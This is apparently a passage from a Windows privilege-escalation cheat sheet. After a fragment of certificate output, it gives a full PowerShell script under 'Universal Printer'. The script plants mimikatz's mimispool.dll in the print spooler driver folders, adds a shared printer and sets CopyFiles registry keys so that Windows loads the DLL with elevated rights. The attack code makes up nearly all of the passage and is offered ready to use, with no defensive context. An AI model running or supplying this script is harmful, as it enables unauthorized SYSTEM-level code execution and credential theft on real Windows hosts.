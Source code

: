 ```powershell
    Cert Issuer: CN=Symantec Class 3 SHA256 Code Signing CA, OU=Symantec Trust Network, O=Symantec Corporation, C=US
    Signer: CN="Citrix Systems, Inc.", OU=XenApp(ClientSHA256), O="Citrix Systems, Inc.", L=Fort Lauderdale, S=Florida, C=US
<SNIP>
```

## EoP - Printers

### Universal Printer

Create a Printer

```ps1
$printerName     = 'Universal Priv Printer'
$system32        = $env:systemroot + '\system32'
$drivers         = $system32 + '\spool\drivers'
$RegStartPrinter = 'Registry::HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Print\Printers\' + $printerName
 
Copy-Item -Force -Path ($system32 + '\mscms.dll')             -Destination ($system32 + '\mimispool.dll')
Copy-Item -Force -Path '.\mimikatz_trunk\x64\mimispool.dll'   -Destination ($drivers  + '\x64\3\mimispool.dll')
Copy-Item -Force -Path '.\mimikatz_trunk\win32\mimispool.dll' -Destination ($drivers  + '\W32X86\3\mimispool.dll')
 
Add-PrinterDriver -Name       'Generic / Text Only'
Add-Printer       -DriverName 'Generic / Text Only' -Name $printerName -PortName 'FILE:' -Shared
 
New-Item         -Path ($RegStartPrinter + '\CopyFiles')        | Out-Null
New-Item         -Path ($RegStartPrinter + '\CopyFiles\Kiwi')   | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Kiwi')   -Name 'Directory' -PropertyType 'String'      -Value 'x64\3'           | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Kiwi')   -Name 'Files'     -PropertyType 'MultiString' -Value ('mimispool.dll') | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Kiwi')   -Name 'Module'    -PropertyType 'String'      -Value 'mscms.dll'       | Out-Null
New-Item         -Path ($RegStartPrinter + '\CopyFiles\Litchi') | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Litchi') -Name 'Directory' -PropertyType 'String'      -Value 'W32X86\3'        | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Litchi') -Name 'Files'     -PropertyType 'MultiString' -Value ('mimispool.dll') | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Litchi') -Name 'Module'    -PropertyType 'String'      -Value 'mscms.dll'       | Out-Null
New-Item         -Path ($RegStartPrinter + '\CopyFiles\Mango')  | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Mango')  -Name 'Directory' -PropertyType 'String'      -Value $null             | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Mango')  -Name 'Files'     -PropertyType 'MultiString' -Value $null             | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Mango')  -Name 'Module'    -PropertyType 'String'      -Value 'mimispool.dll'   | Out-Null
```
